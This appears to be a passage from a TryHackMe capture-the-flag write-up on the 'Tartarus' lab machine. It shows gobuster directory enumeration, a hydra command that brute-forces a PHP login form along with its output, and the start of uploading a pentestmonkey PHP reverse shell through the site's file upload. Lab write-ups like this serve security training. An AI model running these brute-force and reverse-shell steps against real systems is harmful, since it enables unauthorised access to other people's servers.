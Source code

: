 ```
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.218.247/------------
[+] Threads:        10
[+] Wordlist:       /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Extensions:     txt,html,php
[+] Timeout:        10s
===============================================================
2020/08/15 11:01:58 Starting gobuster
===============================================================
/index.html (Status: 200)
/images (Status: 301)
/home.php (Status: 302)
/authenticate.php (Status: 200)
===============================================================
2020/08/15 11:31:40 Finished
===============================================================
```
OK so some more folders and also the authentication.php that we were aware of.
```
~/CTF/tryhackme/tartarus$ hydra -L users.txt -P passwords.txt 10.10.218.247 http-post-form "/------------/authenticate.php:username=^USER^&password=^PASS^:F=Incorrect*"
Hydra v9.0 (c) 2019 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2020-08-15 11:41:02
[WARNING] Restorefile (you have 10 seconds to abort... (use option -I to skip waiting)) from a previous session found, to prevent overwriting, ./hydra.restore
[DATA] max 16 tasks per 1 server, overall 16 tasks, 1313 login tries (l:13/p:101), ~83 tries per task
[DATA] attacking http-post-form://10.10.218.247:80/------------/authenticate.php:username=^USER^&password=^PASS^:F=Incorrect*
[80][http-post-form] host: 10.10.218.247   login: ----   password: ------------

```
Two things that I had issues with here. I tend to copy and paste from my notes using Zim Wiki and so I added the hidden folder at the end of the ip address rather in the form area, but also the initial results I got still gave me wrong passwords (right user) so I just used an asterix to indicate all as in either password and or username.

## login
Lets see what they can allow us to do.
Looks like we can add some files. Lets see if it will allow a php reverse shell exploit. (I use the one from pentestmonkey)
<br>
<img src="../images/tartarus_upload.png" alt="main window" width="200"/>
<br>
Now we have successfully uploaded it and gobuster has now given us the images folder, we get some more information. When we view the folder called uploads and we can see two things.
<br>